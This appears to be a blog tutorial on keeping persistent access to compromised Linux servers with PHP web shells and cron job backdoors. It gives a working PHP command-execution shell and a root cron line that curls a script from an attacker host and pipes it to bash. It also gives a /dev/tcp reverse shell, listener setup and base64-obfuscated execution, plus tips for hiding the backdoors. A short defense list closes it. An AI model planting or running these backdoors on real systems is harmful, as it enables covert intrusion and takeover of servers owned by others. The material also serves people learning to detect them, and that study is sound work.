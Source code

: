 # PHP and Cron Job Backdoors: Gaining Persistent Access Like a Pro

In this post, we’ll dive into two powerful techniques attackers use to maintain access to a compromised Linux server: **PHP backdoors** and **cron job backdoors**. These methods are often used in **post-exploitation** scenarios to establish **persistence**. Let's break them down clearly, like a mentor would.

---

## 🔍 What Is a Backdoor?

A **backdoor** is a hidden way to regain access to a system after the initial exploit. Once an attacker gains access (especially root access), they may leave a small script or schedule a task to reconnect to them — so even if you reboot the server or patch the vulnerability, they can come back in.

---

## 🐘 PHP Backdoors

A **PHP backdoor** is a small PHP script that allows an attacker to execute system commands via a web browser.

### ✅ Example Code:

```php
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

## 🔧 How It Works:
- This script checks for a cmd parameter in the request.

- It uses ** shell_exec() ** to run any system command sent via the browser.

- Output is displayed in ** <pre> ** tags for readability.

## 🌐 Usage:

- If the file is saved as shell.php in  ` /var/www/html ` , an attacker can do:

``bash
Copy code
http://<target-ip>/shell.php?cmd=whoami
```
## Other useful examples:

- ls – list files

- cat /etc/passwd – read sensitive files

- nc – establish reverse shells

## 🕵️ How Attackers Hide It:

- Inject the backdoor into an existing file like index.php.

- Change cmd to a less suspicious name (e.g., x1 or auth_key).

- Store the file in an obscure folder (e.g., /var/www/html/img/).

## ⏰ Cron Job Backdoors

- A cron job is a scheduled task. Attackers can schedule a reverse shell to run every minute, ensuring they maintain access.

## ✅ Example Cron Entry:

```
* * * * * root curl http://<attacker-ip>:8080/shell | bash
```
This does the following:

Runs every minute (* * * * *)

As the root user

Downloads a script from the attacker's server using curl

Pipes it into bash for execution

## 🔥 Shell Script Example:

- On the attacker’s server (hosted at port 8080), the shell file contains:

```bash

#!/bin/bash
bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1

```
## 🛠️ Setup:

Host the shell:

```bash

python3 -m http.server 8080
```

- Start listening for a connection:

```bash
nc -nvlp <port>
```
- Wait for the cron to trigger.

## ⚠️ Why It's Risky:

- Visible in /etc/crontab

- Easily detected by sysadmins

- Logs may show repeated traffic to external IPs

## 🕶️ Making It Sneakier

- Attackers may:

- Use user-level crontabs via crontab -e instead of global /etc/crontab

- Base64-encode the reverse shell to avoid detection:

```bash

echo "<encoded_script>" | base64 -d | bash
```

- Name scripts something innocuous like /update-check or /sys-patch

## 🧠 Final Thoughts
- Both PHP and cron job backdoors are powerful tools in an attacker's toolkit. As an ethical hacker or security professional, understanding how these work is essential — both for offensive use (in labs/CTFs) and for detecting/removing them during incident response.

## 🛡️ Tips for Defense:

- Monitor for unexpected PHP files or parameters in web root.

- Regularly audit /etc/crontab and user crontabs.

- Monitor outbound connections from critical servers.

- Use tools like auditd, chkrootkit, or rkhunter.

### ⚠️ Disclaimer: This post is for educational and ethical hacking purposes only. Always have permission before testing any technique on a live system.

